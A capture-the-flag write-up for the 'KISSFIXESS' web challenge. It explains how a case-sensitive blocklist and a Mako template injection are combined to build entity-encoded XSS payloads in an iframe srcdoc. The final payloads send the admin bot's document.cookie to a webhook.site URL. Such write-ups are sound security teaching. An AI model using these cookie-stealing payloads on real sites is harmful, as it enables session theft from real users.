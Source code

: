 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py

```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```

<br />
As we can see the banned list check doesn't check for capital case letters.
<br />

```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```

<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting a xss using open and closing tag but it's blocked but we have an ssti here in render_page function 
<br />

```py

    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```

<br />

So we can access anything from banned list which contain our needed string using the ssti we have the open and closing tag for xss in banned here, so to get `<` for example we can do `${banned[1]}` this will get us `<` Let's try get `<`: 

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/2.png">
<br />

As we can see it worked now can get a working payload like `<img src=x onerror=alert()>`

I replaced s with S and l with L 

<br />

```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/3.png">
<br />

But if we want to insert the webhook it will contain a lot of things that blocked but we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 



Let's make a script that will help us convert everything 
<br />

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/9.png">
<br />

But when we try it it's rendered as text we can use an iframe to load it as html

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/4.png">

<br />
Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```
<br />

Got a callback, Let's report to the bot:

<br />

<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/5.png">

<br />

We didn't get callback, looking at the bot, Found this option that will disable image loading:
<br />

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```

Let's try another payload that doesn't contain an image

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:
<br/>
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/7.png">
<br />

<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/8.png">
